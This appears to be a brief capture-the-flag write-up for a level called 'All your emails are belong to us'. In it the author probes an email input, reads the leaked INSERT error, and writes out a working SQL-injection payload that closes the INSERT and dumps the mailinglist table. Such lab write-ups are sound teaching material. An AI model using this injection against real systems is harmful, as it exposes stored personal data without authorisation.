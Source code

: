 #### Level 08 - All your emails are belong to us

Tried first `asdf@asdf.com';select * from mails`

That gave me this error:

```
Unexpected token: ; in statement [INSERT INTO mailinglist (email) VALUES ('asdf@asdf.com';]
```

Got some useful information, lets try this then:

```
asdf@asdf.com');select * from mailinglist--
```

Success.